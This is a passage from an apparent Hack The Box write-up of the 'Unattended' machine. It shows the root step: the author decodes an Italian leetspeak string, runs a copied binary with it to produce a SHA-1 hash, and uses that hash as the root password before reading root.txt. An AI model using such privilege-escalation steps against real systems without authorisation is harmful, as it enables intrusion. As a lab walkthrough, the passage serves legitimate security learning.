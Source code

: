 Also, `c0m3s3f0ss34nt4n1` = `comesefosseantani` and the box creator is Italian...

I don't have access to run this on the box itself:

```
guly@unattended:~$ /sbin/uinitrd
-bash: /sbin/uinitrd: Permission denied
guly@unattended:~$ ls -l /sbin/uinitrd
-rwxr-x--- 1 root root 933240 Dec 20 16:50 /sbin/uinitrd
```

Running it locally on my VM I get more Italian:

```
# ./uinitrd
supercazzola
```

Let's see what happens if I upload my copy to the server and execute it:

```
root@ragingunicorn:~/htb/unattended# scp -6 tmp/sbin/uinitrd guly@\[dead:beef::250:56ff:feb2:7bc2\]:unitrd
uinitrd
```

I get some SHA-1 output when I run the binary. The output changes depending on the string I pass as argument:

```
guly@unattended:~$ ./unitrd
c26625fb20563604795b161c6f64b41539e3ec63

guly@unattended:~$ ./unitrd 123
772fdeb165b85e3f395b903c57014f4c6c0ab133

guly@unattended:~$ ./unitrd 123456
d98e9572902fce6c98942ffab1bbd3a6d51ff31c

guly@unattended:~$ ./unitrd 123456
d98e9572902fce6c98942ffab1bbd3a6d51ff31c
```

Those look like SHA1 hashes but I don't know what they mean. I try the first one as the root password but it doesn't work.

However when I run the program with the `c0m3s3f0ss34nt4n1` argument, I am able to `su` as root with the hash I got:

```
guly@unattended:~$ ./unitrd c0m3s3f0ss34nt4n1
132f93ab100671dcb263acaf5dc95d8260e8b7c6
guly@unattended:~$ su -
Password:
root@unattended:~# id
uid=0(root) gid=0(root) groups=0(root)
root@unattended:~# cat root.txt
559c0e...
```